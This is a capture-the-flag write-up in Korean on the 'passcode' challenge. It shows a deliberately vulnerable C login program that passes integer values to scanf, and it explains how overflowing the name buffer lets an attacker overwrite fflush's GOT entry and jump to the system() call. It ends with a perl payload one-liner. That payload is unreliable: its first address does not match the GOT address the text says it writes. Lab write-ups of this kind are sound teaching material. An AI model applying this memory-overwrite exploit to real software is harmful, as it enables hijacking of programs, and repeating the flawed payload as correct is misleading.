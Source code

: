 # passcode

이 문제는 passcode1 과 passcode2 값을 각각의 조건에 만족시키면 flag 를 출력한다. <소스코드 참조>

&nbsp;

처음 welcome() 함수에서 100byte 만큼 입력받은 후, login() 함수에서 passcode1 의 주소에 값을 입력받는다.

일반적으로 유효한 주소가 아닌 값이 저장되어 있기에 "Segmentation fault" 를 출력하며 종료된다. 

&nbsp;

해결 방법은 이 passcode1 에 저장된 값을 유효한 주소로 만들어주면 된다. 아래의 스택 구조를 참고하자.

welcome() 함수에서 입력받는 name 변수의 100 byte 중 마지막 4 byte 는 passcode1 의 값이다. 이 passcode1 의 값을 fflush() 의 got 주소를 저장한 후, passcode1 을 입력받을 때, system() 가 실행되는 주소를 입력해주면 플래그를 출력하게 될 것이다.

&nbsp;

welcome() stack : | 96 byte | 4 byte (passcode1) |

&nbsp;

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

최종 페이로드는 다음과 같다.

* (perl -e 'print "\x90"x96, "\x48\x4a\xbb\xff", "134514147"') | ./passcode